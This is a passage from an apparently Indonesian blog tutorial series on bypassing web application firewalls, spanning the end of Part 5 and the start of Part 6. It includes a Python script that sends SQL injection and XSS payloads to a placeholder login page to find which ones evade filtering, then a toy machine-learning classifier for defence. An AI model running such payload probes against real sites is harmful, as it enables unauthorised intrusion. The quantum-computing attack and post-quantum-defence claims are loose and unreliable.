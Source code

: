 **Contoh Adaptive Payload Injection:**  
```python
import requests

payloads = ["' OR '1'='1", "' UNION SELECT NULL, NULL--", "<script>alert(1)</script>"]
target_url = "https://target.com/login"

for payload in payloads:
    response = requests.post(target_url, data={"username": "admin", "password": payload})
    
    if "blocked" in response.text:
        print(f"Payload {payload} ditolak, mencoba varian lain...")
    else:
        print(f"Payload {payload} berhasil lolos!")
```

---

## 🛡️ Cara Pencegahan

1. **Gunakan AI yang bisa mendeteksi pola adaptive attacks**.  
2. **Analisis traffic berdasarkan pola waktu** untuk menangkap stealth attacks.  
3. **Penerapan post-quantum cryptography** untuk mencegah quantum-based attacks.  

---

## 📌 Kesimpulan  

Di **Part 5**, kita membahas teknik bypass WAF menggunakan **Quantum Computing, Stealth Attacks, dan Adaptive Attack Chains**.  

**Next:** 📖 *"Bypassing AI-Enhanced WAF & Next-Gen Attack Vectors"* 🚀

# Kamus Besar Bypass WAF - Part 6

## 🔐 Post-Quantum Security: The Future of WAF Defense

Seiring berkembangnya **komputasi kuantum dan AI canggih**, WAF harus beradaptasi dengan ancaman baru.  
Bagian ini membahas strategi pertahanan masa depan seperti **Zero Trust WAF, Blockchain-Based WAF, dan AI-Powered Adaptive Security**.

---

## 🛡️ 1. Next-Gen AI-WAF Defense Strategies

### 🔹 1.1. Deep Learning for Threat Analysis
Model AI yang terus **belajar dari pola serangan baru**.

**Contoh Implementasi AI untuk WAF:**  
```python
from sklearn.ensemble import RandomForestClassifier
import numpy as np

# Dataset contoh (0: normal, 1: serangan)
X_train = np.array([[0, 0, 1], [1, 1, 0], [0, 1, 1], [1, 0, 1]])
y_train = np.array([0, 1, 1, 1])

clf = RandomForestClassifier()
clf.fit(X_train, y_train)

# Prediksi request baru
new_request = np.array([[1, 1, 1]])
```